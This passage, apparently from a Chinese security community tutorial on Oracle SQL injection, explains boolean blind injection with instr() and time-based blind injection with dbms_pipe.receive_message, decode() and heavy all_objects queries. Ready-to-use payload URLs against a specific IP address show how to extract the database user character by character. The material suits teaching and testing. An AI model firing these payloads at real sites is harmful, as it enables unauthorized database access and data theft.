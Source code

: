 [![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095417-e21f9080-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095417-e21f9080-f00f-1.png)

#### 2、instr函数布尔盲注

instr函数的应用：

```
select instr('abcdefgh','de') position from dual;#返回结果：4
```

盲注中的应用：

```
http://219.153.49.228:44768/new_list.php?id=1 and 1=(instr((select user from dual),'SYS')) --?id=1 and 4=(instr((select user from dual),'T')) --
```

# 0x06 延时盲注

#### 1、检测漏洞存在

DBMS_PIPE.RECEIVE_MESSAGE函数的作用是从指定管道获取消息。
具体用法为：**DBMS_PIPE.RECEIVE_MESSAGE('pipename',timeout)**
**pipename**为varchar(128)的字符串，用以指定管道名称，在这里我们输入任意值即可。
**timeout**为integer的可选输入参数，用来指定等待时间。
常用payload如下：

```
http://219.153.49.228:44768/new_list.php?id=1 and 1=dbms_pipe.receive_message('o', 10)--
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095417-e25c040c-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095417-e25c040c-f00f-1.png)
如果页面延时10秒返回，即存在注入。

#### 2、配合decode函数延时盲注

只需要将延时语句放入decode函数中即可

```
#直接猜解字符?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('o',5),0) from dual) --#通过ascii猜解字符?id=1 and 1=(select decode(ascii(substr(user,1,1)),'83',dbms_pipe.receive_message('o',5),0) from dual) --
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095418-e29bdd48-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095418-e29bdd48-f00f-1.png)

#### 3、使用其他延时查询来判断

如(select count(*) from all_objects) ，因为查询结果需要一定的时间，在无法使用dbms_pipe.receive_message()函数的情况下可以使用这个。具体操作只需要将decode()函数的返回结果进行替换即可。

```
#直接猜解字符?id=1 and 1=(select decode(substr(user,1,1),'S',(select count(*) from all_objects),0) from dual) --#通过ascii猜解字符?id=1 and 1=(select decode(ascii(substr(user,1,1)),'83',(select count(*) from all_objects),0) from dual) --
```
